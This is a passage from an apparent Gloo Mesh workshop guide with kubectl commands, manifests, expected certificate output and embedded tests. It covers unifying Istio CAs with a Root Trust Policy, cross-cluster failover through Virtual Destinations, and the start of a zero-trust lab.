kubectl --context ${CLUSTER2} exec -t -n bookinfo-backends deploy/reviews-v1 \
-- openssl s_client -showcerts -connect ratings:9080 -alpn istio
```

The output should be like that:

```,nocopy
...
Certificate chain
 0 s:
   i:O = cluster2
-----BEGIN CERTIFICATE-----
MIIDFzCCAf+gAwIBAgIRALo1dmnbbP0hs1G82iBa2oAwDQYJKoZIhvcNAQELBQAw
...
YvDrZfKNOKwFWKMKKhCSi2rmCvLKuXXQJGhy
-----END CERTIFICATE-----
 1 s:O = cluster2
   i:O = cluster2
-----BEGIN CERTIFICATE-----
MIICzjCCAbagAwIBAgIRAIjegnzq/hN/NbMm3dmllnYwDQYJKoZIhvcNAQELBQAw
...
GZRM4zV9BopZg745Tdk2LVoHiBR536QxQv/0h1P0CdN9hNLklAhGN/Yf9SbDgLTw
6Sk=
-----END CERTIFICATE-----
...
```

The first certificate in the chain is the certificate of the workload and the second one is the Istio CAs signing (CA) certificate.

As you can see, the Istio CAs signing (CA) certificates are different in the 2 clusters, so one cluster can't validate certificates issued by the other cluster.

Creating a Root Trust Policy will unify these two CAs with a common root identity.

Run the following command to create the *Root Trust Policy*:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RootTrustPolicy
metadata:
  name: root-trust-policy
  namespace: gloo-mesh
spec:
  config:
    mgmtServerCa:
      generated: {}
    autoRestartPods: true # Restarting pods automatically is NOT RECOMMENDED in Production
EOF
```

When we create the RootTrustPolicy, Gloo Mesh will kick off the process of unifying identities under a shared root.

First, Gloo Mesh will create the Root certificate.

Then, Gloo Mesh will use the Gloo Mesh Agent on each of the clusters to create a new key/cert pair that will form an intermediate CA used by the mesh on that cluster. It will then create a Certificate Request (CR).


Gloo Mesh will then sign the intermediate certificates with the Root certificate. 

At that point, we want Istio to pick up the new intermediate CA and start using that for its workloads. To do that Gloo Mesh creates a Kubernetes secret called `cacerts` in the `istio-system` namespace.

You can have a look at the Istio documentation [here](https://istio.io/latest/docs/tasks/security/cert-management/plugin-ca-cert) if you want to get more information about this process.

Check that the secret containing the new Istio CA has been created in the istio namespace, on the first cluster:

```
kubectl --context ${CLUSTER1} get secret -n istio-system cacerts -o yaml
```

Here is the expected output:

```
apiVersion: v1
data:
  ca-cert.pem: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUZFRENDQXZpZ0F3SUJBZ0lRUG5kRDkwejN4dytYeTBzYzNmcjRmekFOQmdrcWhraUc5dzBCQVFzRkFEQWIKTVJrd0Z3WURWU...
  jFWVlZtSWl3Si8va0NnNGVzWTkvZXdxSGlTMFByWDJmSDVDCmhrWnQ4dz09Ci0tLS0tRU5EIENFUlRJRklDQVRFLS0tLS0K
  ca-key.pem: LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlKS0FJQkFBS0NBZ0VBczh6U0ZWcEFxeVNodXpMaHVXUlNFMEJJMXVwbnNBc3VnNjE2TzlKdzBlTmhhc3RtClUvZERZS...
  DT2t1bzBhdTFhb1VsS1NucldpL3kyYUtKbz0KLS0tLS1FTkQgUlNBIFBSSVZBVEUgS0VZLS0tLS0K
  cert-chain.pem: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUZFRENDQXZpZ0F3SUJBZ0lRUG5kRDkwejN4dytYeTBzYzNmcjRmekFOQmdrcWhraUc5dzBCQVFzRkFEQWIKTVJrd0Z3WURWU...
  RBTHpzQUp2ZzFLRUR4T2QwT1JHZFhFbU9CZDBVUDk0KzJCN0tjM2tkNwpzNHYycEV2YVlnPT0KLS0tLS1FTkQgQ0VSVElGSUNBVEUtLS0tLQo=
  key.pem: ""
  root-cert.pem: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUU0ekNDQXN1Z0F3SUJBZ0lRT2lZbXFGdTF6Q3NzR0RFQ3JOdnBMakFOQmdrcWhraUc5dzBCQVFzRkFEQWIKTVJrd0Z3WURWU...
  UNBVEUtLS0tLQo=
kind: Secret
metadata:
  labels:
    context.mesh.gloo.solo.io/cluster: cluster1
    context.mesh.gloo.solo.io/namespace: istio-system
    gloo.solo.io/parent_cluster: cluster1
    gloo.solo.io/parent_group: internal.gloo.solo.io
    gloo.solo.io/parent_kind: IssuedCertificate
    gloo.solo.io/parent_name: istiod-1-12-istio-system-cluster1
    gloo.solo.io/parent_namespace: istio-system
    gloo.solo.io/parent_version: v2
    reconciler.mesh.gloo.solo.io/name: cert-agent
  name: cacerts
  namespace: istio-system
type: certificates.mesh.gloo.solo.io/issued_certificate
```

Same operation on the second cluster:

```
kubectl --context ${CLUSTER2} get secret -n istio-system cacerts -o yaml
```

Here is the expected output:

```
apiVersion: v1
data:
  ca-cert.pem: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUZFRENDQXZpZ0F3SUJBZ0lRWXE1V29iWFhGM1gwTjlNL3BYYkNKekFOQmdrcWhraUc5dzBCQVFzRkFEQWIKTVJrd0Z3WURWU...
  XpqQ1RtK2QwNm9YaDI2d1JPSjdQTlNJOTkrR29KUHEraXltCkZIekhVdz09Ci0tLS0tRU5EIENFUlRJRklDQVRFLS0tLS0K
  ca-key.pem: LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlKS1FJQkFBS0NBZ0VBMGJPMTdSRklNTnh4K1lMUkEwcFJqRmRvbG1SdW9Oc3gxNUUvb3BMQ1l1RjFwUEptCndhR1U1V...
  MNU9JWk5ObDA4dUE1aE1Ca2gxNCtPKy9HMkoKLS0tLS1FTkQgUlNBIFBSSVZBVEUgS0VZLS0tLS0K
  cert-chain.pem: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUZFRENDQXZpZ0F3SUJBZ0lRWXE1V29iWFhGM1gwTjlNL3BYYkNKekFOQmdrcWhraUc5dzBCQVFzRkFEQWIKTVJrd0Z3WURWU...
  RBTHpzQUp2ZzFLRUR4T2QwT1JHZFhFbU9CZDBVUDk0KzJCN0tjM2tkNwpzNHYycEV2YVlnPT0KLS0tLS1FTkQgQ0VSVElGSUNBVEUtLS0tLQo=
  key.pem: ""
  root-cert.pem: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUU0ekNDQXN1Z0F3SUJBZ0lRT2lZbXFGdTF6Q3NzR0RFQ3JOdnBMakFOQmdrcWhraUc5dzBCQVFzRkFEQWIKTVJrd0Z3WURWU...
  UNBVEUtLS0tLQo=
kind: Secret
metadata:
  labels:
    context.mesh.gloo.solo.io/cluster: cluster2
    context.mesh.gloo.solo.io/namespace: istio-system
    gloo.solo.io/parent_cluster: cluster2
    gloo.solo.io/parent_group: internal.gloo.solo.io
    gloo.solo.io/parent_kind: IssuedCertificate
    gloo.solo.io/parent_name: istiod-1-12-istio-system-cluster2
    gloo.solo.io/parent_namespace: istio-system
    gloo.solo.io/parent_version: v2
    reconciler.mesh.gloo.solo.io/name: cert-agent
  name: cacerts
  namespace: istio-system
type: certificates.mesh.gloo.solo.io/issued_certificate
```

As you can see, the secrets contain the same Root CA (base64 encoded), but different intermediate certs.

Have a look at the `RootTrustPolicy` object we've just created and notice the `autoRestartPods: true` in the `config`. This instructs Gloo Mesh to restart all the Pods in the mesh.

In recent versions of Istio, the control plane is able to pick up this new cert without any restart, but we would need to wait for the different Pods to renew their certificates (which happens every hour by default).

<!--bash
printf "\nWaiting until the secret is created in $CLUSTER1"
until kubectl --context ${CLUSTER1} get secret -n istio-system cacerts &>/dev/null
do
  printf "%s" "."
  sleep 1
done
printf "\n"

printf "\nWaiting until the secret is created in $CLUSTER2"
until kubectl --context ${CLUSTER2} get secret -n istio-system cacerts &>/dev/null
do
  printf "%s" "."
  sleep 1
done
printf "\n"
-->

Now, let's check what certificates we get when we run the same commands we ran before we created the Root Trust Policy:

```
kubectl --context ${CLUSTER1} exec -t -n bookinfo-backends deploy/reviews-v1 \
-- openssl s_client -showcerts -connect ratings:9080 -alpn istio
```

The output should be like that:

```,nocopy
...
Certificate chain
 0 s:
   i:
-----BEGIN CERTIFICATE-----
MIIEBzCCAe+gAwIBAgIRAK1yjsFkisSjNqm5tzmKQS8wDQYJKoZIhvcNAQELBQAw
...
T77lFKXx0eGtDNtWm/1IPiOutIMlFz/olVuN
-----END CERTIFICATE-----
 1 s:
   i:O = gloo-mesh
-----BEGIN CERTIFICATE-----
MIIFEDCCAvigAwIBAgIQPndD90z3xw+Xy0sc3fr4fzANBgkqhkiG9w0BAQsFADAb
...
hkZt8w==
-----END CERTIFICATE-----
 2 s:O = gloo-mesh
   i:O = gloo-mesh
-----BEGIN CERTIFICATE-----
MIIE4zCCAsugAwIBAgIQOiYmqFu1zCssGDECrNvpLjANBgkqhkiG9w0BAQsFADAb
...
s4v2pEvaYg==
-----END CERTIFICATE-----
 3 s:O = gloo-mesh
   i:O = gloo-mesh
-----BEGIN CERTIFICATE-----
MIIE4zCCAsugAwIBAgIQOiYmqFu1zCssGDECrNvpLjANBgkqhkiG9w0BAQsFADAb
...
s4v2pEvaYg==
-----END CERTIFICATE-----
...
```

And let's compare with what we get on the second cluster:

```
kubectl --context ${CLUSTER2} exec -t -n bookinfo-backends deploy/reviews-v1 \
-- openssl s_client -showcerts -connect ratings:9080 -alpn istio
```

The output should be like that:

```,nocopy
...
Certificate chain
 0 s:
   i:
-----BEGIN CERTIFICATE-----
MIIEBjCCAe6gAwIBAgIQfSeujXiz3KsbG01+zEcXGjANBgkqhkiG9w0BAQsFADAA
...
EtTlhPLbyf2GwkUgzXhdcu2G8uf6o16b0qU=
-----END CERTIFICATE-----
 1 s:
   i:O = gloo-mesh
-----BEGIN CERTIFICATE-----
MIIFEDCCAvigAwIBAgIQYq5WobXXF3X0N9M/pXbCJzANBgkqhkiG9w0BAQsFADAb
...
FHzHUw==
-----END CERTIFICATE-----
 2 s:O = gloo-mesh
   i:O = gloo-mesh
-----BEGIN CERTIFICATE-----
MIIE4zCCAsugAwIBAgIQOiYmqFu1zCssGDECrNvpLjANBgkqhkiG9w0BAQsFADAb
...
s4v2pEvaYg==
-----END CERTIFICATE-----
 3 s:O = gloo-mesh
   i:O = gloo-mesh
-----BEGIN CERTIFICATE-----
MIIE4zCCAsugAwIBAgIQOiYmqFu1zCssGDECrNvpLjANBgkqhkiG9w0BAQsFADAb
...
s4v2pEvaYg==
-----END CERTIFICATE-----
...
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("cacerts secrets have been created", () => {
    const clusters = [process.env.CLUSTER1, process.env.CLUSTER2];
    clusters.forEach(cluster => {
        it('Secret is present in ' + cluster, () => helpers.k8sObjectIsPresent({ context: cluster, namespace: "istio-system", k8sType: "secret", k8sObj: "cacerts" }));
    });
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/root-trust-policy/tests/cacert-secrets-created.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


<!--bash
printf "Waiting for all pods to be bounced in cluster1"
until [ $(kubectl --context ${CLUSTER1} -n istio-system get podbouncedirectives -o jsonpath='{.items[].status.state}' | grep FINISHED -c) -eq 1 ]; do
  printf "%s" "."
  sleep 1
done
printf "Waiting for all pods needed for the test..."
printf "\n"
kubectl --context ${CLUSTER1} get deploy -n bookinfo-backends -oname|xargs -I {} kubectl --context ${CLUSTER1} rollout status -n bookinfo-backends {}
printf "\n"
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("Certificate issued by Gloo Mesh", () => {
  var expectedOutput = "i:O = gloo-mesh";

  it('Gloo mesh is the organization for ' + process.env.CLUSTER1 + ' certificate', () => {
    let cli = chaiExec("kubectl --context " + process.env.CLUSTER1 + " exec -t -n bookinfo-backends deploy/reviews-v1 -c istio-proxy -- openssl s_client -showcerts -connect ratings:9080 -alpn istio");

    expect(cli).stdout.to.contain(expectedOutput);
    expect(cli).stderr.to.not.be.empty;
  });


  it('Gloo mesh is the organization for ' + process.env.CLUSTER2 + ' certificate', () => {
    let cli = chaiExec("kubectl --context " + process.env.CLUSTER2 + " exec -t -n bookinfo-backends deploy/reviews-v1 -c istio-proxy -- openssl s_client -showcerts -connect ratings:9080 -alpn istio");

    expect(cli).stdout.to.contain(expectedOutput);
    expect(cli).stderr.to.not.be.empty;
  });

});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/root-trust-policy/tests/certificate-issued-by-gloo-mesh.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


You can see that the last certificate in the chain is now identical on both clusters. It's the new root certificate.

The first certificate is the certificate of the service. Let's decrypt it.

Copy and paste the content of the certificate (including the BEGIN and END CERTIFICATE lines) in a new file called `/tmp/cert` and run the following command:

```
openssl x509 -in /tmp/cert -text
```

The output should be as follow:

```
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            7d:27:ae:8d:78:b3:dc:ab:1b:1b:4d:7e:cc:47:17:1a
    Signature Algorithm: sha256WithRSAEncryption
        Issuer: 
        Validity
            Not Before: Sep 17 08:21:08 2020 GMT
            Not After : Sep 18 08:21:08 2020 GMT
        Subject: 
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
...
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            X509v3 Extended Key Usage: 
                TLS Web Server Authentication, TLS Web Client Authentication
            X509v3 Basic Constraints: critical
                CA:FALSE
            X509v3 Subject Alternative Name: critical
                URI:spiffe://cluster2/ns/bookinfo-backends/sa/bookinfo-ratings
    Signature Algorithm: sha256WithRSAEncryption
...
-----BEGIN CERTIFICATE-----
MIIEBjCCAe6gAwIBAgIQfSeujXiz3KsbG01+zEcXGjANBgkqhkiG9w0BAQsFADAA
...
EtTlhPLbyf2GwkUgzXhdcu2G8uf6o16b0qU=
-----END CERTIFICATE-----
```

The Subject Alternative Name (SAN) is the most interesting part. It allows the sidecar proxy of the `reviews` service to validate that it talks to the sidecar proxy of the `ratings` service.


We also need to make sure we restart our `in-mesh` deployment because it's not yet part of a `Workspace`:

```bash
kubectl --context ${CLUSTER1} -n httpbin rollout restart deploy/in-mesh
```


## Lab 12 - Leverage Virtual Destinations <a name="lab-12---leverage-virtual-destinations-"></a>
[](https://youtu.be/KikFWYxQodk "Video Link")

Right now, we've only exposed the `productpage` service on the first cluster.

In this lab, we're going to make it available on both clusters.

Let's update the VirtualGateway to expose it on both clusters.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
  listeners:
    - http: {}
      port:
        number: 80
      httpsRedirect: true
    - http: {}
      port:
        number: 443
      tls:
        mode: SIMPLE
        secretName: tls-secret
      allowedRouteTables:
        - host: '*'
EOF
```

Then, we can configure the `RouteTable` to send the traffic to a Virtual Destination which will be composed of the `productpage` services running in both clusters.

Let's create this Virtual Destination.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualDestination
metadata:
  name: productpage
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  hosts:
  - productpage.global
  services:
  - namespace: bookinfo-frontends
    labels:
      app: productpage
  ports:
    - number: 9080
      protocol: HTTP
EOF
```

Note that we have added the label `expose` with the value `true` to make sure it will be exported to the Gateway `Workspace`.

After that, we need to update the `RouteTable` to use it.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: productpage
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  http:
    - name: productpage
      matchers:
      - uri:
          exact: /productpage
      - uri:
          prefix: /static
      - uri:
          prefix: /api/v1/products
      forwardTo:
        destinations:
          - ref:
              name: productpage
              namespace: bookinfo-frontends
            kind: VIRTUAL_DESTINATION
            port:
              number: 9080
EOF
```

You can now access the `productpage` service using the gateway of the second cluster.

Get the URL to access the `productpage` service from the second cluster using the following command:
```
echo "https://${ENDPOINT_HTTPS_GW_CLUSTER2}/productpage"
```

<!--bash
for i in {1..60}; do
  nc -z $HOST_GW_CLUSTER1 443 && break
  sleep 1
done
-->

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (SSL)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/productpage', retCode: 200 }));
  it('/productpage is available in cluster2', () => helpers.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER2, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/virtual-destination/tests/productpage-available-secure.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Now, if you try to access it from the first cluster, you can see that you now get the `v3` version of the `reviews` service (red stars).

This diagram shows the flow of the request (through both Istio ingress gateways):


It's nice, but you generally want to direct the traffic to the local services if they're available and failover to the remote cluster only when they're not.

In order to do that we need to create 2 other policies.

The first one is a `FailoverPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: FailoverPolicy
metadata:
  name: failover
  namespace: bookinfo-frontends
spec:
  applyToDestinations:
  - kind: VIRTUAL_DESTINATION
    selector:
      labels:
        failover: "true"
  config:
    localityMappings: []
EOF
```

It will update the Istio `DestinationRule` to enable failover.

Note that failover is enabled by default, so creating this `FailoverPolicy` is optional. By default, it will try to failover to the same zone, then same region and finally anywhere. A `FailoverPolicy` is generally used when you want to change this default behavior. For example, if you have many regions, you may want to failover only to a specific region.

The second one is an `OutlierDetectionPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: OutlierDetectionPolicy
metadata:
  name: outlier-detection
  namespace: bookinfo-frontends
spec:
  applyToDestinations:
  - kind: VIRTUAL_DESTINATION
    selector:
      labels:
        failover: "true"
  config:
    consecutiveErrors: 2
    interval: 5s
    baseEjectionTime: 30s
    maxEjectionPercent: 100
EOF
```

It will update the Istio `DestinationRule` to specify how/when we want the failover to happen.

As you can see, both policies will be applied to `VirtualDestination` objects that have the label `failover` set to `"true"`.

So we need to update the `VirtualDestination`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualDestination
metadata:
  name: productpage
  namespace: bookinfo-frontends
  labels:
    expose: "true"
    failover: "true"
spec:
  hosts:
  - productpage.global
  services:
  - namespace: bookinfo-frontends
    labels:
      app: productpage
  ports:
    - number: 9080
      protocol: HTTP
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (SSL)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/productpage', retCode: 200 }));
  it('/productpage is available in cluster2', () => helpers.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER2, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/virtual-destination/tests/productpage-available-secure.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Now, if you try to access the productpage from the first cluster, you should only get the `v1` and `v2` versions (the local ones).

This updated diagram shows the flow of the requests using the local services:



If the `productpage` service doesn't exist on the first cluster, the Istio Ingress Gateway of this cluster will automatically use the `productpage` service running on the other cluster.

Let's try this:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends scale deploy/productpage-v1 --replicas=0
kubectl --context ${CLUSTER1} -n bookinfo-frontends wait --for=jsonpath='{.spec.replicas}'=0 deploy/productpage-v1
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (SSL)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/productpage', retCode: 200 }));
  it('/productpage is available in cluster2', () => helpers.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER2, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/virtual-destination/tests/productpage-available-secure.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You can still access the application on cluster1 even if the productpage isn't running there anymore. And you can see the `v3` version of the `reviews` service (red stars).

This updated diagram shows the flow of the request now that the `productpage` service isn't running in the first cluster:


Let's restart the `productpage` service:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends scale deploy/productpage-v1 --replicas=1
kubectl --context ${CLUSTER1} -n bookinfo-frontends wait --for=jsonpath='{.status.readyReplicas}'=1 deploy/productpage-v1
```

But what happens if the `productpage` service is running, but is unavailable ?

Let's try !

The following command will patch the deployment to run a new version which won't respond to the incoming requests.

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends patch deploy productpage-v1 --patch '{"spec": {"template": {"spec": {"containers": [{"name": "productpage","command": ["sleep", "20h"]}]}}}}'
kubectl --context ${CLUSTER1} -n bookinfo-frontends rollout status deploy/productpage-v1
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (SSL)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/productpage', retCode: 200 }));
  it('/productpage is available in cluster2', () => helpers.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER2, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/virtual-destination/tests/productpage-available-secure.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You can still access the bookinfo application.

This updated diagram shows the flow of the request now that the `productpage` service isn't available in the first cluster:


Run the following command to make the `productpage` available again in the first cluster

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends patch deployment productpage-v1  --type json   -p '[{"op": "remove", "path": "/spec/template/spec/containers/0/command"}]'
kubectl --context ${CLUSTER1} -n bookinfo-frontends rollout status deploy/productpage-v1
```


Let's apply the original `RouteTable` and `VirtualGateway` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: productpage
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  http:
    - name: productpage
      matchers:
      - uri:
          exact: /productpage
      - uri:
          prefix: /static
      - uri:
          prefix: /api/v1/products
      forwardTo:
        destinations:
          - ref:
              name: productpage
              namespace: bookinfo-frontends
              cluster: cluster1
            port:
              number: 9080
EOF

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
      port:
        number: 80
      httpsRedirect: true
    - http: {}
      port:
        number: 443
      tls:
        mode: SIMPLE
        secretName: tls-secret
      allowedRouteTables:
        - host: '*'
EOF
```

And also delete the different objects we've created:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete virtualdestination productpage
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete failoverpolicy failover
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete outlierdetectionpolicy outlier-detection
```


## Lab 13 - Zero trust <a name="lab-13---zero-trust-"></a>
[](https://youtu.be/BiaBlUaplEs "Video Link")

In the previous step, we federated multiple meshes and established a shared root CA for a shared identity domain.

All the communications between Pods in the mesh are now encrypted by default, but:

- communications between services that are in the mesh and others which aren't in the mesh are still allowed and not encrypted
- all the services can talk together

Let's validate this.

<!--bash
(timeout 2s kubectl --context ${CLUSTER1} -n httpbin rollout status deploy/in-mesh) || (kubectl --context ${CLUSTER1} -n httpbin rollout restart deploy/in-mesh && kubectl --context ${CLUSTER1} -n httpbin rollout status deploy/in-mesh)
-->
Run the following commands to initiate a communication from a service which isn't in the mesh to a service which is in the mesh:

```
pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=not-in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

You should get a `200` response code which confirm that the communication is currently allowed.

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Communication allowed", () => {
  it("Response code should be 200", () => {
    const podName = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin get pods -l app=not-in-mesh -o jsonpath='{.items[0].metadata.name}'" }).replaceAll("'", "");
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin debug -i -q " + podName + " --image=curlimages/curl -- curl -s -o /dev/null -w \"%{http_code}\" http://reviews.bookinfo-backends:9080/reviews/0" }).replaceAll("'", "");
    expect(command).to.contain("200");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/zero-trust/tests/not-in-mesh-to-in-mesh-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Run the following commands to initiate a communication from a service which is in the mesh to another service which is in the mesh:

```
pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Communication allowed", () => {
  it("Response code should be 200", () => {
    const podName = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin get pods -l app=in-mesh -o jsonpath='{.items[0].metadata.name}'" }).replaceAll("'", "");
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin debug -i -q " + podName + " --image=curlimages/curl -- curl -s -o /dev/null -w \"%{http_code}\" http://reviews.bookinfo-backends:9080/reviews/0" }).replaceAll("'", "");
    expect(command).to.contain("200");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/zero-trust/tests/in-mesh-to-in-mesh-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You should get a `200` response code again.

To enfore a zero trust policy, it shouldn't be the case.

We'll leverage the Gloo Mesh workspaces to get to a state where:

- communications between services which are in the mesh and others which aren't in the mesh aren't allowed anymore
- communications between services in the mesh are allowed only when services are in the same workspace or when their workspaces have import/export rules.

The Bookinfo team must update its `WorkspaceSettings` Kubernetes object to enable service isolation.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: bookinfo
  namespace: bookinfo-frontends
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: productpage
    - kind: SERVICE
      labels:
        app: reviews
    - kind: ALL
      labels:
        expose: "true"
  options:
    serviceIsolation:
      enabled: true
      trimProxyConfig: true
EOF
```

When service isolation is enabled, Gloo Mesh creates the corresponding Istio `AuthorizationPolicy` and `PeerAuthentication` objects to enforce zero trust.

When `trimProxyConfig` is set to `true`, Gloo Mesh also creates the corresponding Istio `Sidecar` objects to program the sidecar proxies to only know how to talk to the authorized services.

If you refresh the browser, you'll see that the bookinfo application is still exposed and working correctly.

Run the following commands to initiate a communication from a service which isn't in the mesh to a service which is in the mesh:

```
